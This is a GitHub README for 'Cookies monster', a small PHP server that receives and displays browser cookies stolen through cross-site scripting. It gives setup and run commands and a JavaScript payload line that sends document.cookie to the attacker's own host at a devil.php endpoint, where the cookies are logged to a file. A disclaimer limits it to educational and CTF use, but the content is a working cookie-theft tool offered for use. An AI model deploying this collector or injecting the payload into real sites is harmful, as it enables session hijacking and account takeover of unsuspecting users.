 
# Cookies monster 🍪
A tool to collect cookies and show them in a web page.


## Documentation 📖

This tool is to collect cookies via logs with XSS

### Install requiriments 🔭

First you need to start the requiriments, you just need `php8.3`.

~~~bash
sudo apt install php8.3
~~~

#### Run the server 🏃

To run the server you need to be in the main directory of the project to then run the server with `PHP`

~~~bash
php -S localhost:3333
~~~


### Collecting cookies 🗡️

You need to know how to do XSS Attacks to use this tool in a correct way, you have to add this URL `http://YOUR_IP:PORT/devil/devil.php?i=` to your script and then add the cookies, for example:

~~~JS
new Image().src='http://YOUR_IP:PORT/devil/devil.php?i='+document.cookie;
~~~

Then you will have the cookie in the file `cookies.txt` and it will be displayed in the web page


### cleaning cookies 🗑️

To clean cookies you just need to add an space the `cookies.txt` file, you can use this command:

~~~bash
echo " " > devil/cookies.txt
~~~


## DISCLAIMER ⚠️

This tool is for educational and CTF use only.
The author is not responsible for illegal use.
Unauthorized access is a crime in most countries and may carry legal penalties.
Use responsibly and only with proper permission.

---
